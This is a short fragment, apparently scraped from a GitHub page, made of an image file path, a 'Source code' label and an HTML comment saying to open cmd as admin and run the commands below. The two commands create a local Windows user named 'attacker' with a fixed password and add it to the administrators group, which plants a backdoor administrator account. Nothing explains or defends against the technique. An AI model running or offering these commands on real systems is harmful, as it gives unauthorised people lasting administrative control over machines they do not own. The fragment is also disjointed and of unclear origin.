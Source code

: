 <!--open cmd as admin and run below commands-->
net user attacker P@ssword123 /add 
net localgroup administrators attacker /add 